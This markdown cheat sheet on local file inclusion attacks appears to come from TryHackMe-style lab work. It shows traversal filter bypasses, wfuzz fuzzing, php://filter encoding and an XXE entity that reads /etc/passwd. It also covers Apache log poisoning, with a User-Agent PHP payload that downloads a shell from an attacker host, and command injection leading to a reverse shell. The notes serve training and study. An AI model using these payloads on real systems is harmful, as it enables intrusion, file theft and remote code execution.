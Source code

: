 ```yaml
---
title: LFI 🎃
---
```

## Nice articcles to read

- [invicti.com](https://www.invicti.com/blog/web-security/local-file-inclusion-vulnerability/)
- [outpost24: lfi to RCE](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/)

## Classic ones

- If you find the php code with the filter like:

```php
        <?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
```

- You can just apply a filter like: `http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//../etc/passwd`

## Adding parameter file to url

- Linux File Inclussion
  - Check the `url` adding parameter `file`

![](Pasted%20image%2020240213235821.png)

## Fuzzing it

- FUZZ it using this command:
  - [Useful wordlist found here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/)

```shell
wfuzz -c -w dirTraversal.txt  --hw 0 http://10.10.70.109/?view=FUZZ
```


## Bypassing filters with encodings


- If the backend is filtering by checking the input, try this:

```shell
http://IP/?view=php://filter/FOLDER/convert.base64-encode/resource=index

# example
http://mafialive.thm/test.php?view=//filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php
```

- Check out the &ext variable and put it empty because it won't get the file extension

## Log poisoning

- To perform this, first check out if you have access to the log file in an apache with Burpsuite:



- Log file contamination

```shell
http://IP/?view=dog../../../../../cat/../var/log/apache2/access.log&ext=
```


## Exploiting the User-Agent field

- Exploit the User-Agent Field:
  - First create a shell like the PentestMonkey one
  - Create a python server
  - Load the petition (like log file contamination petition) and capture it with BurpSuite
  - Modify the User-Agent field with this command:

```shell
<?php file_put_contents('shell.php', file_get_contents('http://IP_ATTACK:PORT/shell.php'))?>
```

- Then access to `http://IP/shell.php` and you got the reverse shell

## Regex filtering

When we can echo commands try and it's using a regex like: `/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/` try:

```shell
http://IP_HOST/echo.php?search=id+|+bash
# Then just try other commands like
echo.php?search=ls+|+bash
# Then try to input a reverse shell
```

## Web filtering

If a web shell filters your input, try to encode it into `base64`

![](Pasted%20image%2020240417160455.png)

- If it doesn't work, try some [Command Injection 💄](command_injection.md)

## XML file inclusion (XXE)

- If a web accepts XML, it could be vulnerable to XXE.
- You can try to upload a code like this to inspect the system:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&name;</name>
  <author>Pavandeep</author>
  <com>Hacking Articles</com>
</comment>
```

- Change the `"file:///etc/passwd"` for the one you want

## Lfi to RCE

If you can read some files by some kind of escape, we can bruteforce the `/proc/self/` directory in Apache.

This directory holds information about different processes. Each process is distinguished by its PID as shown below:

![](Pasted%20image%2020240501160143.png)

Every process can access its available information by requesting the `/proc/self` directory.

As Apache is requesting this file (via the LFI vulnerability) and since the file is located inside Apache’s proc directory, we can use `/proc/self` instead of searching for Apache’s PID. In a brief recap we could say that `/proc/self/environ` is – roughly- equal to `/proc/<apache_pid>/environ`.

The contents of this directory are [symbolic links](https://www.nixtutor.com/freebsd/understanding-symbolic-links/) pointing to the actual file of the process’ open file handlers:

![](Pasted%20image%2020240501160310.png)

It goes without saying that during the attack we do not know which symbolic link points to which file. The file we will be interested in is the Apache [access log](https://httpd.apache.org/docs/2.4/logs.html#accesslog). We choose this file as it’s dynamic and can be changed based on our input.

To identify the file, we will use Burp Intruder.

> First, we set up the position of our payload.

![](Pasted%20image%2020240501160409.png)

> As File Descriptors are identified by a numeric id, we choose the proper payload. `Payloads > Payload type: Numbers`

![](Pasted%20image%2020240501160501.png)

> A successfull attack should look like:

![](Pasted%20image%2020240501161147.png)

Now we would perform a **Log Poisoning** attack.
